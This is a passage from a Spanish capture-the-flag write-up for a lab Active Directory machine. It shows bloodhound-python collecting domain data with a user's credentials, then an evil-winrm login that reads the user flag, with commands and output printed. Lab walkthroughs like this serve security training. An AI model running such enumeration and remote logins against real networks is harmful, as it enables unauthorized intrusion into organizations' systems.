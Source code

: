 <br>

-----------------
**IMPORTANTE**

Antes de loguearnos en la máquina con las credenciales del **usuario emma.johnson**, vamos a usar **bloodhound-python** para obtener la data del AD que usaremos en **BloodHound**.

Esto lo hacemos, ya que existen permisos que tiene el **usuario emma.johnson** que, por alguna razón, se eliminan una vez que entras por **evil-winrm** a la máquina.

Más adelante, veremos qué permisos son.

Obtengamos la data:
```bash
bloodhound-python -u 'emma.johnson' -p 'contraseña_emma.johnson' -d neptune.thl -dc DC01.neptune.thl -ns 192.168.56.10 --zip -c all
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: neptune.thl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: DC01.neptune.thl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: DC01.neptune.thl
INFO: Found 8 users
INFO: Found 53 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.neptune.thl
INFO: Done in 00M 01S
INFO: Compressing output into 20250513020845_bloodhound.zip
```
Listo.

-----------------

<br>

Ahora sí, entremos a la máquina:
```batch
evil-winrm -i 192.168.56.10 -u 'emma.johnson' -p '***********'
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
.
*Evil-WinRM* PS C:\Users\Emma Johnson\Documents>
```

Y en el Escritorio encontramos la flag del usuario:
```batch
*Evil-WinRM* PS C:\Users\Emma Johnson\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Emma Johnson\Desktop> type user.txt
...
```
